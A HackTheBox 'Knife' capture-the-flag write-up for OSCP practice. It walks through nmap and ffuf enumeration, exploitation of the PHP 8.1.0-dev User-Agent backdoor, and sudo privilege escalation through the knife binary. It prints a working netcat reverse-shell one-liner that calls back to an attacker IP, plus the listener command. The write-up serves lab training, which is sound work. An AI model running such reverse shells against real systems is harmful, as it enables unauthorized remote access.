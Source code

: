 ```yaml
---
title: "HackTheBox: Knife - OSCP Prep"
categories:
  - CTF Writeups
toc: true
---
```


This was a 'easy' rated Linux HTB machine with an interesting CVE initial access vector combined with a simple privilege escalation technique. Let's begin.

# Reconnaissance

## Nmap 

`nmap -p- -sV -sC -T4 -n -Pn -o full_thorough.txt knife.htb`

[![1](/assets/images/Knife/1.png)](/assets/images/Knife/1.png){: .full}

We discover 2 ports open: SSH on OpenSSH and HTTP on a Apache server. HTTP offers more possibilites for initial access, so let's enumerate that service first.

## Web 

### Fuzzing 

#### Directories

`ffuf -w /usr/share/.../directory-list-2.3-big.txt -u http://knife.htb/FUZZ -fc 404 | tee ffuf_dir_large.log`

[![2](/assets/images/Knife/2.png)](/assets/images/Knife/2.png){: .full}

The only directory discovered is `server-status`, which is found on most (if not all?) Apache servers, but gives a 403 response code and no interesting information. Let's use a different wordlist to fuzz for common files.

#### Files

`ffuf -w /usr/share/.../big.txt -u http://knife.htb/FUZZ -fc 404 | tee ffuf_big.log`

[![3](/assets/images/Knife/3.png)](/assets/images/Knife/3.png){: .full}

We find two additional results; `.htaccess` & `.htpasswd`. These are also found on all Apache servers, and also give 403 response codes. So no interesting files. If the above two don't return anything interesting, I'll also go onto fuzzing for subdomains / virtual-hosts.

#### VHosts

`ffuf -w /usr/share/.../subdomains-top-110000.txt -u http://knife.htb/FUZZ -H 'Host: FUZZ.knife.htb' -fs 5815`

I'm filtering by size 5815, with `-fs 5815`, as that is the size of our original webpage to reveal any anomolies that could indicate a virtual-host.

[![4](/assets/images/Knife/4.png)](/assets/images/Knife/4.png){: .full}

As we can see from the above there is no results, therefore their are no vhosts on this webserver. Let's try, as a last resort, to enumerate the web technologies to possibly discover a inherent vulnerability in the webstack.

### Web technologies

`whatweb http://knife.htb | tee whatweb.log` 

[![5](/assets/images/Knife/5.png)](/assets/images/Knife/5.png){: .full}

I first searched for vulnerabilities in `Apache 2.4.41` - their weren't many critical ones that stood out to be. Let's try `PHP 8.1.0-dev`. 

[![6](/assets/images/Knife/6.png)](/assets/images/Knife/6.png){: .full}

Interesting... the first result on Google led us to a POC on ExploitDB, this must be the route. 

# Initial Access

The [story](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) behind this vulnerability is very interesting! TLDR: malicious commits were pushed to PHP's repo which actually embeeded it with a backdoor in the `User-Agent` header

Let's download this POC and put it to test!

[![7](/assets/images/Knife/7.png)](/assets/images/Knife/7.png){: .full}

RCE achieved with a dumb-shell. Let's see if we can upgrade this to a more interactive nc shell.

## Upgrade shell

Rev-shell payload: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.4 4444 >/tmp/f`

Rev-shell listener: `nc -nvlp 4444`

[![8](/assets/images/Knife/8.png)](/assets/images/Knife/8.png){: .full}

Nice work. As `james` we can get the `user.txt` flag!

# Privilege Escalation

## sudo -l as james

I always begin with running `sudo -l` to view if the current user has any capabilities to run as sudo.

[![9](/assets/images/Knife/9.png)](/assets/images/Knife/9.png){: .full}

Interesting, we can run the binary `knife`. Let's see if this is a known PE vector on [GFTObins](https://gtfobins.github.io/).

[![10](/assets/images/Knife/10.png)](/assets/images/Knife/10.png){: .full}

Looks like it! Let's give it a go.

[![11](/assets/images/Knife/11.png)](/assets/images/Knife/11.png){: .full}